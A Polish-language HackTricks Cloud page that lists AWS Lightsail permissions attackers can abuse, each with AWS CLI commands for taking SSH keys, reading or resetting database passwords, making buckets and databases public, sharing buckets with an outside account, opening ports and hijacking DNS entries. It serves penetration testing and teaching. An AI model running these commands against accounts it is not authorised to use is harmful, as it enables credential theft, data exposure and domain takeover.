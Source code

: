 # AWS - Lightsail Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Lightsail

Aby uzyskać więcej informacji o Lightsail, sprawdź:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Ważne jest, aby zauważyć, że Lightsail **nie używa ról IAM należących do użytkownika**, ale do zarządzanego konta AWS, więc nie możesz nadużywać tej usługi do privesc. Jednak **wrażliwe dane**, takie jak kod, klucze API i informacje o bazach danych, mogą być znalezione w tej usłudze.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

To uprawnienie pozwoli ci uzyskać klucze SSH do uzyskania dostępu do instancji:
```
aws lightsail download-default-key-pair
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji wewnątrz instancji.

### `lightsail:GetInstanceAccessDetails`

To uprawnienie pozwoli Ci wygenerować klucze SSH do uzyskania dostępu do instancji:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji wewnątrz instancji.

### `lightsail:CreateBucketAccessKey`

To uprawnienie pozwoli Ci uzyskać klucz do dostępu do koszyka:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w obrębie kosza.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

To uprawnienie pozwoli Ci uzyskać dane logowania do bazy danych:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazie danych.

### `lightsail:UpdateRelationalDatabase`

To uprawnienie pozwoli Ci zmienić hasło do dostępu do bazy danych:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Jeśli baza danych nie jest publiczna, możesz również uczynić ją publiczną z tymi uprawnieniami za pomocą

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazie danych.

### `lightsail:OpenInstancePublicPorts`

To uprawnienie pozwala na otwieranie portów do Internetu.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potencjalny wpływ:** Uzyskanie dostępu do wrażliwych portów.

### `lightsail:PutInstancePublicPorts`

To uprawnienie pozwala na otwieranie portów do Internetu. Należy zauważyć, że wywołanie to zamknie każdy port otwarty, który nie jest na liście.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potencjalny wpływ:** Uzyskanie dostępu do wrażliwych portów.

### `lightsail:SetResourceAccessForBucket`

Te uprawnienia pozwalają na przyznanie instancjom dostępu do koszyka bez dodatkowych poświadczeń.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potencjalny wpływ:** Potencjalny nowy dostęp do koszyków z wrażliwymi informacjami.

### `lightsail:UpdateBucket`

Dzięki temu uprawnieniu atakujący mógłby przyznać własnemu kontu AWS dostęp do odczytu koszyków lub nawet uczynić koszyki publicznymi dla wszystkich:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potencjalny wpływ:** Potencjalny nowy dostęp do kubełków z wrażliwymi informacjami.

### `lightsail:UpdateContainerService`

Dzięki tym uprawnieniom atakujący mógłby przyznać dostęp do prywatnych ECR z usługi kontenerów.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potencjalny wpływ:** Uzyskanie wrażliwych informacji z prywatnego ECR

### `lightsail:CreateDomainEntry`

Napastnik z tym uprawnieniem mógłby utworzyć subdomenę i skierować ją na swój własny adres IP (przejęcie subdomeny), lub stworzyć rekord SPF, który pozwala mu na podszywanie się pod e-maile z tej domeny, lub nawet ustawić główną domenę na swój własny adres IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencjalny wpływ:** Przejęcie domeny

### `lightsail:UpdateDomainEntry`

Atakujący z tym uprawnieniem mógłby utworzyć subdomenę i skierować ją na swój własny adres IP (przejęcie subdomeny), lub stworzyć rekord SPF, który pozwala mu na podszywanie się pod e-maile z tej domeny, lub nawet ustawić główną domenę na swój własny adres IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencjalny wpływ:** Przejęcie domeny

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
